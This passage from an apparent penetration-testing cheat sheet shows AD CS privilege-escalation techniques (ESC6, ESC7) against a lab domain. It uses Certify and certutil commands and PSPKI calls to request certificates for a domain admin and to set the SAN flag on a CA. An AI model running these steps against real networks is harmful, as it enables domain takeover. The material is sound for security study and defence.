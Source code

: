 To abuse request a certificate specifying an `/altname` with any template that allows for domain auth (e. g., the default `User` template which normally doesn't allow to specify alternative names):

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:User /altname:DomAdmin
```

This setting can be set with domain admin's privileges like this (*dangerous, do not do this!*):

```
Cmd > certutil.exe -config "CA01.megacorp.local\CorpCA" -setreg "policy\EditFlags" +EDITF_ATTRIBUTESUBJECTALTNAME2
```

Remove this setting:

```
Cmd > certutil.exe -config "CA01.megacorp.local\CorpCA" -setreg "policy\EditFlags" -EDITF_ATTRIBUTESUBJECTALTNAME2
```



### Vulnerable CA ACEs (ESC7)

Enumarate CA ACEs with Powershell [PSPKI](https://github.com/PKISolutions/PSPKI):

```
PS > Install-Module -Name PSPKI
PS > Import-Module PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA01.megacorp.local | Get-CertificationAuthorityAcl | select -ExpandProperty access
```

`ManageCA` and `ManageCertificates` rights translate to the "CA Administrator" and "Certificate Manager" ("CA Officer") respectively.

The "CA Administrator" role allows to set the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag (see **ESC6**):

```
# Check before setting the flag
Cmd > hostname
DC01
Cmd > certutil.exe -config "CA01.megacorp.local\CorpCA" -getreg "policy\EditFlags"

# Invoke SetConfigEntry
PS > "$(hostname) : $(whoami)"
WS01 : megacorp\CertAdmin
PSPKI > $configReader = New-Object SysadminsLV.PKI.Dcom.Implementation.CertSrvRegManagerD "CA01.megacorp.local"
PSPKI > $configReader.SetRootNode($true)
PSPKI > $configReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
1114446
PSPKI > $configReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")

# Check after setting the flag (EDITF_ATTRIBUTESUBJECTALTNAME2 should appear in the output)
Cmd > hostname
DC01
Cmd > certutil.exe -config "CA01.megacorp.local\CorpCA" -getreg "policy\EditFlags"
```
